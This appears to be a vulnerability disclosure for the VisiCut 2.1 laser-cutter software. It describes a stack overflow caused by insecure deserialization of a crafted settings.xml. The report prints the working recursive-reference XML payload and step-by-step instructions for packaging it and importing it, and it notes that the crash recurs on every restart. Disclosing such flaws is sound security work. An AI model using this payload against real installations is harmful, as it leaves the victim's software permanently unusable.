





# VisiCut V2.1 Stack Overflow due to Insecure Deserialization
Affected Version: <= v2.1(latest stable release version)

Application: [Here](https://github.com/t-oster/VisiCut/releases/tag/2.1)


## Insecure Deserialization Vulnerability
```php
<set>
  <set>
    <set>
      <set>
        <set>
          <set>
            <set>
              <string>a</string>
            </set>
            <set>
              <string>b</string>
            </set>
          </set>
          <set>
            <string>c</string>
            <set reference='../../../set/set[2]'/>
          </set>
        </set>
      </set>
    </set>
  </set>
</set>
```
After saving the above code as settings.xml file, put it into a folder named **settings**, and package the folder into a zip file. Double-click **VisiCut.exe** to start the software, and click "**FromFile**" in the interface to upload the zip file to trigger the stack overflow vulnerability.


## Exploit

Double-click **VisiCut.exe** to start the software, and click "**FromFile**" in the interface to upload the zip file.






**The stack overflow vulnerability occured.**






**If you try to start the application again, the stack overflow vulnerability will continue to be triggered and you will not be able to use the software again.**

